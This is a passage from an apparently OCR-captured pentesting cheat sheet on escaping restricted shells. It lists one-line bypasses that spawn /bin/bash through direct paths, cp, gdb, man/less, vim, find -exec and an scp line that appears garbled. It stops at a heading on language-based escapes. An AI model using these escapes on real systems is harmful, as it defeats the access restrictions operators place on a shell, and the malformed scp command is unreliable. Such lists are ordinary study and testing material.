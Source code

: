   ```bash
  ```
- View environment variables:
  ```bash
  printenv
  ```

---


## Bypass Techniques

### If `/` is allowed:
```bash
/bin/bash
/bin/sh
```

### If `cp` is allowed:
```bash
cp /bin/bash ~/sh
```

### Exploiting Programs:
- **FTP**
  ```bash
  /bin/bash
  ```
- **GDB**
  ```bash
  gdb
  !/bin/bash
  ```
- **Man / Less / More**
  ```bash
  man nmap
  !/bin/bash
  ```
- **Vim**
  ```bash
  :!/bin/bash
  ```
- **Find**
  ```bash
  find / -name test -exec /bin/bash \;
  ```
- **SCP**
  ```bash
  scp -s /path/to/script username@target:/destination
  ```

---

## Language-Based Shell Escapes
